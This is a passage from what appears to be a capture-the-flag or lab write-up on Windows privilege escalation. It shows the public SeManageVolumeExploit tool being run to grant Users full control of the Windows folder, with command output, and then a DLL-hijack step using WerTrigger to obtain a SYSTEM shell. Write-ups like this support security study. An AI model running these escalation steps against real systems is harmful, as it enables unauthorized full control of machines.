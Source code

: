 ### Escalation

Enumeration privleges, we discover that SeManageVolumePrivilege is assigned to the svc_mssql account. We can take advantage of this privilege to get Administrator access to the target.

Reference :

    https://twitter.com/0gtweet/status/1303432729854439425
    https://github.com/CsEnox/SeManageVolumeExploit

Let's grab the compiled executable from the releases page.
We upload SeManageVolumeExploit.exe to the target and execute it. After execution, we discover that the Builtin Users group has full permissions on the Windows folder.
```
C:\xampp\htdocs\uploads>.\SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
Entries changed: 916
DONE 

C:\xampp\htdocs\uploads>icacls c:/windows
icacls c:/windows
c:/windows NT SERVICE\TrustedInstaller:(F)
           NT SERVICE\TrustedInstaller:(CI)(IO)(F)
           NT AUTHORITY\SYSTEM:(M)
           NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
           BUILTIN\Users:(M)
           BUILTIN\Users:(OI)(CI)(IO)(F)
           BUILTIN\Users:(RX)
           BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
           CREATOR OWNER:(OI)(CI)(IO)(F)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

### I don't know why, but it seems we got the full permissions of the Windows folder
Let's use WerTrigger from https://github.com/sailay1996/WerTrigger to acquire a SYSTEM shell.

To set it up we need to:

    Copy phoneinfo.dll to *C:\Windows\System32*
    Place Report.wer file and WerTrigger.exe in a same directory.
    Run WerTrigger.exe.

```
C:\xampp\htdocs\uploads\enox>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is CCC2-BF17

 Directory of C:\xampp\htdocs\uploads\enox

10/10/2021  07:25 PM    <DIR>          .
10/10/2021  07:25 PM    <DIR>          ..
10/10/2021  07:23 PM             9,252 Report.wer
10/10/2021  07:23 PM            15,360 WerTrigger.exe
               2 File(s)         24,612 bytes
               2 Dir(s)  50,123,882,496 bytes free

C:\xampp\htdocs\uploads\enox>WerTrigger.exe
WerTrigger.exe
SNIP...
```